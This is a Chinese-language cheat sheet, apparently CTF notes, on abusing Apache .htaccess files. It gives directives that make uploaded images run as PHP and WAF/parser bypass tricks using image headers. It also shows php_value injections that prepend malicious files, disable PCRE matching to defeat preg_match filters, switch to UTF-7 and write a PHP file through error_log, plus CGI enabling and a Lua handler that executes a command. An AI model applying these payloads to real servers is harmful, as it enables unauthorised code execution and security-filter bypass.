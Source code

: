 # ``.htaccess``文件利用

### 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
### 增加使用php解析 (可以类推)

- 文件后缀(.jpg)
  
    ```
    AddType application/x-httpd-php .jpg
    ```
- 的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```

### **利用php_value注入php配置**

- 在所有php前后注入恶意php文件
  
    ```
    php_value auto_prepend_file "<FileDir>"
    php_value auto_append_file "<FileDir>"
    ```

- 利用prce参数绕过preg_match
  
    ```
    php_value pcre.backtrack_limit 0
    php_value pcre.jit 0 
    ```

    任意匹配均返回``FALSE``
    
    > https://www.php.net/manual/zh/pcre.configuration.php

- 利用UTF-7编码绕过日志html编码
  
   ```
    php_value zend.multibyte 1
    php_value zend.script_encoding "UTF-7"
   ```
- 利用inclue_path包含恶意文件

  ```
    php_value include_path "/tmp"
  ```
- 利用``error log``写本地文件 (html编码)

    ```
    php_value error_log /tmp/fl3g.php
    php_value error_reporting 32767
    ```
- 强制开启短标签
    
    ```
    php_value short_open_tag 1  
    ```

## CGI 相关

官方文档 https://httpd.apache.org/docs/2.4/howto/htaccess.html#cgi

>Finally, you may wish to use a .htaccess file to permit the execution of CGI programs in a particular directory. This may be implemented with the following configuration:
>```
>Options +ExecCGI
>AddHandler cgi-script cgi pl
>```

## htshell

参考链接 https://github.com/wireghoul/htshells/

### 利用lua

```htaccess
AddHandler lua-script .lua
```

```lua
require "string"
function handle(r)
    r.content_type = "text/plain"
    if r.method == 'GET' then
        local a = io.popen('/readflag')
        local b = a:read("*all")
        r:puts(b)
    end
    return apache2.OK
end
```

## 参考资料

https://www.hacking8.com/MiscSecNotes/htaccess.html#title-9